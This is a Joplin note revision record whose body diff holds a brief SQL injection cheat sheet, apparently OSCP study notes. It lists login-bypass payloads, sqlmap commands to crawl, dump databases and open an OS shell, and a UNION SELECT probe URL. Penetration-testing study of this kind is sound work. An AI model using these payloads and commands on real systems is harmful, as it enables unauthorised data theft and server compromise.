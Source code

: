 id: ab5a2d4cd2254dd8a01569cad06514a4
parent_id: 
item_type: 1
item_id: 576469a387224b88b3c2ffcd806a2cdf
item_updated_time: 1642325684854
title_diff: "[{\"diffs\":[[1,\"SQL Injection\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":13}]"
body_diff: "[{\"diffs\":[[1,\"Testing for Bypasses:\\\n\\\n' or 1=1 LIMIT 1 --\\\n' or 1=1 LIMIT 1 -- -\\\n' or 1=1 LIMIT 1#\\\n'or 1#\\\n' or 1=1 --\\\n' or 1=1 -- -\\\n\\\n# SQLMAP - Not allowed in OSCP\\\n\\\n## sqlmap crawl\\\n\\\nsqlmap -u http://172.21.0.0 --crawl=1\\\n\\\n## sqlmap dump database\\\n\\\nsqlmap -u http://172.21.0.0 --dbms=mysql --dump\\\n\\\n## sqlmap shell\\\n\\\nsqlmap -u http://172.21.0.0 --dbms=mysql --os-shell\\\n\\\n# SQLI\\\n\\\nTesting for a row:\\\n\\\n- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":441}]"
metadata_diff: {"new":{"id":"576469a387224b88b3c2ffcd806a2cdf","parent_id":"17338627f6dc4ef4856d44508b33e0b1","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1597752366033,"user_updated_time":1642325664483,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-16T09:35:29.312Z
created_time: 2022-01-16T09:35:29.312Z
type_: 13